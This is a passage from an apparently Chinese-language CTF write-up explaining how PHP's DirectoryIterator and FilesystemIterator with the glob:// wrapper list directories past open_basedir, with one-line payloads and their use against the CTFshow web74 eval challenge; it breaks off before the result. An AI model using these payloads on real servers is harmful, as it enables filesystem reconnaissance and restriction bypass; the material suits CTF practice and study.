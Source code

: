 
这种姿势也可以无视open_basedir的限制

并且从图中就可以看出这两个原生类的些许区别了，Filesystemlterator会以绝路路径的形式展现，而DirectoryIterator仅显示出当前目录下的文件信息

这两个类同样也有一句话形式payload：

DirectoryIterator:

```php
$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

FilesystemIterator:

```php
$a = new FilesystemIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}
```

这里简单测试一下

**CTFshow web74**

```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
```

传入payload

```php
c=$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}exit();
```

得到
